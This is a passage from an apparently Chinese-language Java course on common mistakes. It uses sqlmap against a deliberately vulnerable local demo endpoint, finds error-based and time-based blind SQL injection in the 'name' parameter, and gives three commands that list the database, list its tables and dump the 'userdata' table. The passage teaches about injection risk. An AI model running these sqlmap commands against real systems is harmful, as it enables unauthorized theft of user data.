 使用sqlmap来探索这个接口：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test

```

一段时间后，sqlmap给出了如下结果：

![](https://static001.geekbang.org/resource/image/2f/59/2f8e8530dd0f76778c45333adfad5259.png)

可以看到，这个接口的name参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，**仅需简单的三步，就可以直接导出整个用户表的内容了**。

第一步，查询当前数据库：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db

```

可以得到当前数据库是common\_mistakes：

```
current database: 'common_mistakes'

```

第二步，查询数据库下的表：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"

```

可以看到其中有一个敏感表userdata：

```
Database: common_mistakes
[7 tables]
+--------------------+
| user               |
| common_store       |
| hibernate_sequence |
| m                  |
| news               |
| r                  |
| userdata           |
+--------------------+

```

第三步，查询userdata的数据：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump

```
